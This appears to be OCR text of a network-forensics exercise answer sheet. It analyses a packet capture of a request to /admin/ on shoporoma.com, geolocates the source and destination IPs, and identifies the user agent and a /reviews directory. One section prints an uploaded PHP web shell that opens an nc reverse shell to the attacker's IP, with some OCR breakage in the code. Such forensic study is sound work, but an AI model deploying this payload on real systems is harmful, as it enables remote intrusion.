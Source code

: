 # Packet Trace

Frame 93: 409 bytes on wire (3272 bits), 409 bytes captured (3272 bits)
Ethernet II, Src: VMware_c0:00:09 (00:50:56:c0:00:09), Dst: VMware_61:97:cd (00:0c:29:61:97:cd)
Internet Protocol Version 4, Src: 117.11.88.124, Dst: 24.49.63.79
Transmission Control Protocol, Src Port: 59350, Dst Port: 80, Seq: 1, Ack: 1, Len: 343
Hypertext Transfer Protocol
    GET /admin/ HTTP/1.1\r\n
    Host: shoporoma.com\r\n
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0\r\n
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8\r\n
    Accept-Language: en-US,en;q=0.5\r\n
    Accept-Encoding: gzip, deflate\r\n
    Connection: keep-alive\r\n
    Upgrade-Insecure-Requests: 1\r\n
    \r\n
    [Full request URI: http://shoporoma.com/admin/]
    [HTTP request 1/1]
    [Response in frame: 95]

## 1. City
Source

IP Address: 117.11.88.124
Country: China
Region: Tianjin
City: Tianjin
ISP: China Unicom Tianjin Province Network
Organization: Not available
Latitude: 39.1422
Longitude: 117.1761

Destination


IP Address: 24.49.63.79
Country: United States
Region: Maryland
City: Hagerstown
ISP: Antietam Broadband
Organization: Not available
Latitude: 39.6418
Longitude: -77.7181


Internet Protocol Version 4, Src: 117.11.88.124, Dst: 24.49.63.79

## 2. User-agent

Hypertext Transfer Protocol
    GET /admin/ HTTP/1.1\r\n
    Host: shoporoma.com\r\n
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0\r\n
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8\r\n
    [Full request URI: http://shoporoma.com/admin/]
    [HTTP request 1/1]
    [Response in frame: 95]


## 3. Shell


"image.php"                                14--..

Uploads an php script disguising as php
used 2   <?php system ("r
  m /tmp/f;mkfifo 
  /tmp/f;cat /tmp/
 f|/bin/sh -i 2>&
  1|nc 117.11.88.1
  24 8080 >/tmp/f"
   ); ?>...--------

nc to start reverse shell


## 4. Directory

/reviews
